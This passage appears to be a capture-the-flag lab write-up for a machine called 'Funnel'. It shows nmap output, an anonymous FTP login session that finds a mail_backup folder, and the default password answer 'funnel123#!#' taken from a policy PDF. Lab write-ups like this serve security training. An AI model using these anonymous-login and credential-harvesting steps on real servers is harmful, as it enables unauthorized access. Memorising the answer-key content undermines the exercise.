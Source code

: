 ```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
```

<br>

#### What is the default account password that every new member on the "Funnel" team should change as soon as possible?

```
funnel123#!#
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp 10.129.151.228
Connected to 10.129.151.228.
220 (vsFTPd 3.0.3)
Name (10.129.151.228:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32449|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
226 Directory send OK.
ftp> cd mail_backup
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||61475|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.
```

<br>

After logged into the ftp server as `anonymous`, I was able to locate 2 files inside the mail_backup directory. Downloaded those files to local and the `password_policy.pdf` file disclosed the default password of a newly created user.
